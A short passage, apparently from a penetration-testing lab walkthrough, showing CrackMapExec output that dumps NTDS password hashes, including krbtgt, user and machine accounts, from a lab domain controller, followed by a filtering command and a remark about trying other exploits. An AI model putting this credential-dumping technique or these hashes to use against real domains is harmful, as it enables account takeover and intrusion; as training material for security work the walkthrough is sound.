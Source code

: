 ```shell-session
SMB         172.16.10.3     445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2c6454dbf95abc7b0a543b90f6f96f66:::
SMB         172.16.10.3     445    DC01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.10.3     445    DC01             derek.walker:1103:aad3b435b51404eeaad3b435b51404ee:69cc8c83c56aeeb7571bbeec20c6ef65:::
SMB         172.16.10.3     445    DC01             carole.holmes:1104:aad3b435b51404eeaad3b435b51404ee:37ef72fcf42a4021948c7ed7b33ccf21:::
SMB         172.16.10.3     445    DC01             callum.dixon:1105:aad3b435b51404eeaad3b435b51404ee:3e7c48255206470a13543b27b7af18de:::
SMB         172.16.10.3     445    DC01             beth.richards:1106:aad3b435b51404eeaad3b435b51404ee:de3d16603d7ded97bb47cd6641b1a392:::
SMB         172.16.10.3     445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.10.3     445    DC01             WS01$:1601:aad3b435b51404eeaad3b435b51404ee:ee7c60ba01f7d361ad5479c86d3ab3fc:::
SMB         172.16.10.3     445    DC01             [+] Dumped 10 NTDS hashes to /home/plaintext/.cme/logs/DC01_172.16.10.3_2022-12-09_065546.ntds of which 8 were added to the database
SMB         172.16.10.3     445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.10.3     445    DC01             [*] cat /home/plaintext/.cme/logs/DC01_172.16.10.3_2022-12-09_065546.ntds | grep -iv disabled | cut -d ':' -f1
```

We can also try to exploit other vulnerabilities, but we must reset the target machine before exploiting it.

